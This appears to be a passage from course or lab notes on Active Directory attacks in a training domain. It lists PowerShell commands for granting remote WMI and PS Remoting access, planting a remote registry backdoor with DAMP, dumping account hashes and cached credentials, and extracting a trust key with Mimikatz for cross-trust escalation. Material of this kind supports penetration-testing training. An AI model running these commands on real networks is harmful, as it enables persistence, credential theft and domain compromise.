 On remote machine remove permissions:
```powershell
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc -namespace 'root\cimv2'-Remove -Verbose
```

### PowerShell Remoting

On local machine for student1:
```powershell
Set-RemotePSRemoting -UserName student1-Verbose
```

On remote machine for student1 without credentials:
```powershell
Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc -Verbose
```

On remote machine, remove the permissions:
```powershell
Set-RemotePSRemoting -UserName student1 -ComputerName dcorp-dc -Remove
```

### Remote Registry

Using DAMP, with admin privs on remote machine:
```powershell
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student1 -Verbose
```

As `student1`, retrieve machine account hash:
```powershell
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose
```

Retrieve local account hash:
```powershell
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose
```

Retrieve domain cached credentials:
```powershell
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbose
```

# Cross-Trust Privilege Escalation

## Using the domain trust key

Execute LSAdump on the Domain Controller of the child domain. Look for `[In]` trust key from child to parent.
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
```

We also need the SID for Enterprise Admins group of the parent domain.
```powershell
Get-NetGroup -Domain moneycorp.local -Name "Enterprise Admins" | select objectsid
```
